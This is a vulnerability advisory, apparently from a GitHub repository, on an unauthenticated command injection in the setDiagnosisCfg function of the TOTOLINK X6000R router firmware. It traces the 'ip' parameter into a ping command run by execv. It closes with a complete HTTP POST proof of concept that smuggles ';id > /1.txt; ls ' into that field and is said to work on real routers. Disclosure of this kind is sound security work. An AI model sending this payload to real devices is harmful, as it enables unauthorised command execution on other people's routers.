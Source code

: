 

### **Overview**：
Affected Device：totolink X6000R

Affected Firmware Version：V9.4.0cu.852_20230719

Vulnerability: Command Injection, allowing arbitrary command execution 

Firmware Download Link：<https://www.totolink.tw/support_view/X6000R>


![](Pasted%20image%2020240118163821.png)

### **Vulnerability**：

The vulnerability is located in the function `sub_415774` within `shttpd`, with the function alias `setDiagnosisCfg`. This command can be executed without authorization.
![](Pasted%20image%2020240302160914.png)

It calls `snprintf` to format and concatenate our `ip` param into the string `ping %s -w %d &>/var/log/pingCheck`, then passes the string to the `CsteSystem` function. 

We can find the implementation of `CsteSystem` in `libcscommon.so`.
![](execv.png)

The string we pass as `param_1` will eventually be invoked by `execv`. Controlling `param_1` can lead to arbitrary command execution.

### **POC**:

both work on real router and qemu emulation

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/5ls
37.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"ip":";id > /1.txt; ls ","topicurl":"setDiagnosisCfg"}
~~~

### **IMPACT**：

![](Pasted%20image%2020240302160940.png)